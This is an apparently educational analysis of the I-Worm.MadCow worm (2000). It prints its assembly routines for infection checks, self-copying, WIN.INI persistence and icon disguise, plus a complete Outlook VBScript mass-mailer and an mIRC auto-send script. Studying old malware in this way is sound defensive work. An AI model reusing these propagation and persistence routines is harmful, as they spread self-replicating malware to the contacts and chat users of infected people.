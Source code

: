 
## Analysis of the I-Worm.MadCow Worm

### Introduction

The **I-Worm.MadCow** is a self-replicating malware, known as a worm, created by PetiK in 2000. Written in 32-bit assembly language for Windows systems, this malicious program spreads through email and IRC channels while employing techniques to persist on infected machines. This analysis explores its source code to reveal how it operates and the methods its creator used to make it effective.

### General Structure of the Code

The worm is coded in **32-bit assembly** using tools like TASM32 (assembler) and TLINK32 (linker), targeting Windows operating systems. It depends on two key Windows libraries:

-   **KERNEL32.dll**: Provides functions like `CopyFileA` and `CreateFileA` for file operations.
-   **ADVAPI32.dll**: Enables registry manipulation with calls like `RegSetValueExA`.

The program is divided into sections, each handling a specific task: checking for prior infection, copying itself, ensuring persistence, spreading to other systems, and disguising its presence.

### How the Worm Works

#### 1. Checking for Previous Infection

The worm first checks if the system is already infected by looking for a registry key: `HKEY_LOCAL_MACHINE\Software\[Atchoum]`. If this key exists, it skips the infection process.

```assembly
VERIF:  mov  eax, offset CLE        ; Points to "Software\[Atchoum]"
        call REG                    ; Checks the registry
        cmp  [regDisp], 1           ; If regDisp = 1, key exists
        jne  INIFILE                ; If not, proceed to install
```

The `REG` function uses `RegCreateKeyExA` to check or create the key, storing the result in `regDisp`.

#### 2. Copying Itself to the System

If the system isn’t infected, the worm copies itself to two locations:

-   **System Directory** (e.g., `C:\Windows\System32`) as `Wininet32.exe`.
-   **Windows Directory** (e.g., `C:\Windows`) as `MadCow.exe`.

It retrieves these directories using `GetSystemDirectoryA` and `GetWindowsDirectoryA`, then uses `CopyFileA` to duplicate itself.

```assembly
COPIE:  push 0
        call GetModuleHandleA       ; Gets the current module
        push 260
        push offset szOrig
        push eax
        call GetModuleFileNameA     ; Gets the worm’s file path
        push 260
        push offset szCopie
        call GetSystemDirectoryA    ; Gets system directory
        push offset Copie           ; "\Wininet32.exe"
        push offset szCopie
        call lstrcat                ; Builds the full path
        push 00h
        push offset szCopie
        push offset szOrig
        call CopyFileA              ; Copies the file
```

#### 3. Ensuring Persistence

To launch at every system startup, the worm edits the `WIN.INI` file in the Windows directory. It adds a line under the `[windows]` section: `run="path_to_Wininet32.exe"`.

```assembly
WIN_INI: push 260
         push offset szWin
         call GetWindowsDirectoryA   ; Gets Windows directory
         push offset Winini          ; "\WIN.INI"
         push offset szWin
         call lstrcat                ; Builds path to WIN.INI
         push offset szWin
         push offset szCopie         ; Path to Wininet32.exe
         push offset run             ; "run"
         push offset windows         ; "windows"
         call WritePrivateProfileStringA ; Updates WIN.INI
```
#### 4. Creating Files for Propagation

The worm creates a folder `C:\Win32` and adds several files:

-   **ENVOIE.VBS**: A VBScript for sending emails.
-   **ENVOIE.BAT**: A batch file to run the VBScript.
-   **script.ini**: A script to infect IRC users via mIRC.
-   **Salut.ico**: An icon for disguising executable files.

```assembly
DIR:    push 00h
        push offset Dossier         ; "C:\Win32"
        call CreateDirectoryA       ; Creates the folder

EMAIL:  push 00000000h
        push 00000080h              ; Normal file attribute
        push 00000002h              ; CREATE_ALWAYS
        push 00000000h
        push 00000001h              ; Read sharing
        push 40000000h              ; Write access
        push offset VBSFILE         ; "C:\Win32\ENVOIE.VBS"
        call CreateFileA            ; Creates the file
        mov  [fh], eax
        push 00h
        push offset octets
        push vbstaille              ; Size of VBS script
        push offset vbsd            ; VBS script content
        push [fh]
        call WriteFile              ; Writes the script
        push [fh]
        call CloseHandle            ; Closes the file
```

#### 5. Spreading via Email

The `ENVOIE.VBS` script uses Microsoft Outlook to email `MadCow.exe` to all contacts in the user’s address book. The email has:

-   **Subject**: "Why are cows mad?"
-   **Body**: "Here is a report explaining the madness of cows"
-   **Attachment**: `MadCow.exe`

```vbscript
Sub EMAIL()
    Set K = CreateObject("Outlook.Application")
    Set L = K.GetNameSpace("MAPI")
    For Each M In L.AddressLists
        If M.AddressEntries.Count <> 0 Then
            Set N = K.CreateItem(0)
            For O = 1 To M.AddressEntries.Count
                Set P = M.AddressEntries(O)
                If O = 1 Then
                    N.BCC = P.Address
                Else
                    N.BCC = N.BCC & "; " & P.Address
                End If
            Next
            N.Subject = "Why are cows mad?"
            N.Body = "Here is a report explaining the madness of cows"
            Set Q = CreateObject("Scripting.FileSystemObject")
            N.Attachments.Add Q.BuildPath(Q.GetSpecialFolder(0),"MadCow.exe")
            N.Send
        End If
    Next
End Sub
```

The `ENVOIE.BAT` file triggers this script using `WinExec`.

#### 6. Spreading via IRC

The worm places a `script.ini` file in `C:\Win32` and copies it to mIRC folders (e.g., `C:\mirc`). This script sends `MadCow.exe` to users joining an IRC channel.

```ini
[script]
n0=on 1:JOIN:#:{
n1= /if ( $nick == $me ) { halt }
n2= /.dcc send $nick C:\Win32\MadCow.exe
n3=}
```


#### 7. Disguising Executables

The worm creates an icon file `Salut.ico` in `C:\Win32`, moves it to the system directory as `MSLS.ICO`, and updates the registry key HKEY_CLASSES_ROOT\exefile\DefaultIcon. This changes the icon of all `.exe` files to `MSLS.ICO`, tricking users into thinking the worm is harmless.

```assembly
REG2:    push offset l
         push offset p
         push 0
         push 1F0000h + 1 + 2h       ; Access rights
         push 0
         push 0
         push 0
         push offset CLE2            ; "\exefile\DefaultIcon"
         push 80000000h              ; HKEY_CLASSES_ROOT
         call RegCreateKeyExA
         push 05h                    ; Size of szCico
         push offset szCico          ; Path to MSLS.ICO
         push 01h                    ; REG_SZ
         push 0
         push 00h
         push p
         call RegSetValueExA         ; Sets the new icon
```

### Key Techniques Used

-   **Persistence**: Adds itself to `WIN.INI` to run on startup.
-   **Propagation**:
    -   Sends emails via Outlook using `ENVOIE.VBS`.
    -   Infects IRC users via `script.ini` and `mIRC`.
-   **Disguise**: Changes the default icon of .exe files to confuse users.

### Conclusion

The **I-Worm.MadCow** was an advanced piece of malware for its era, blending infection, spreading mechanisms, and deception. Though its techniques are now outdated, studying it offers valuable insights into malware evolution and helps improve modern cybersecurity defenses.
